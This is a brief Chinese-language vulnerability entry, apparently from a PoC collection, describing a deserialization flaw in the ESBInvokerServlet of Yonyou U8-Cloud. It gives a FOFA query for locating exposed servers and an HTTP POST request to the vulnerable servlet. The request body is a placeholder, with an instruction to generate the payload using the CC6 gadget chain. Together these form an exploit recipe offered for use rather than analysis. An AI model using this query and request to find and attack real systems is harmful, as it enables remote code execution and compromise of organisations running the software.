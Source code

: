 # 用友u8-cloud系统ESBInvokerServlet存在反序列化漏洞



## fofa

```yaml
app="用友-U8-Cloud"
```

## poc

```
POST /servlet/ESBInvokerServlet HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng, */*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 1123

反序列内容
```

使用使用cc6链生成payload打即可